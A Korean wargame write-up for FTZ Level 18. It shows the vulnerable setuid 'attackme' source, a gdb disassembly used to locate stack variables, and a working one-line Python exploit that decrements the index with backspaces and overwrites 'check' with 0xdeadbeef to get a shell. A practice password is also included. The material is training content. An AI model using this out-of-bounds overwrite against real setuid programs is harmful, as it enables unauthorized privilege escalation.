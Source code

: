 ```yaml
---
sort: 18
---
```


# Level 18

```note
id : level18

password : why did you do it
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 조져보자.

```c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);
 
          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}
 
void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

input값을 1byte씩 읽어서 count값을 줄이거나 input을 write하거나 할 수 있다.<br>
count값이 음수일 때도 c언어에서는 음수값에 따른 indexing을 수행해버리기 때문에 Out Of Boundary가 발생할 수 있다.<br>
string, check 등 지역변수의 위치를 파악한다면 충분히 check값을 바꿀 수 있을 것이다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048550 (main+0):	push   %ebp
0x08048551 (main+1):	mov    %esp,%ebp
0x08048553 (main+3):	sub    $0x100,%esp
0x08048559 (main+9):	push   %edi

... (중략) ...

<b># if(check == 0xdeadbeef)
0x080485ab (main+91):	cmpl   $0xdeadbeef,0xffffff98(%ebp) # check
0x080485b2 (main+98):	jne    0x80485c0 (main+112)
0x080485b4 (main+100):	call   0x8048780 (shellout) </b>

... (중략) ...

<b># default:
0x08048743 (main+499):	lea    0xffffff9c(%ebp),%eax # string
0x08048746 (main+502):	mov    %eax,0xffffff04(%ebp)
0x0804874c (main+508):	mov    0xffffff90(%ebp),%edx # count
0x0804874f (main+511):	mov    0xffffff94(%ebp),%cl # x
0x08048752 (main+514):	mov    %cl,0xffffff03(%ebp)
0x08048758 (main+520):	mov    0xffffff03(%ebp),%al
0x0804875e (main+526):	mov    0xffffff04(%ebp),%ecx
0x08048764 (main+532):	mov    %al,(%edx,%ecx,1)        # string[count] = x;
0x08048767 (main+535):	incl   0xffffff90(%ebp)         # count++;
0x0804876a (main+538):	jmp    0x8048770 (main+544) </b>

0x0804876c (main+540):	lea    0x0(%esi,1),%esi
0x08048770 (main+544):	jmp    0x8048591 (main+65)
0x08048775 (main+549):	lea    0xfffffef4(%ebp),%esp
0x0804877b (main+555):	pop    %ebx
0x0804877c (main+556):	pop    %esi
0x0804877d (main+557):	pop    %edi
0x0804877e (main+558):	leave  
0x0804877f (main+559):	ret
</pre>

check 변수를 확인하는 부분, switch문의 default문을 살펴보면 지역변수들의 위치를 모두 파악할 수 있다.<br>
각각의 지역변수들의 위치는 아래와 같고, check는 string 바로 위에 붙어있는 것을 알 수 있다.

```
count = ebp - 0x70
x = ebp - 0x6c
check = ebp - 0x68
string = ebp - 0x64
```

```bash
[level18@ftz level18]$ (python -c "print('\x08'*4+'\xef\xbe\xad\xde\n')";cat) | ./attackme 
Enter your command: my-pass
```

```tip
## 알게 된 점

Out Of Boundary (OOB)
```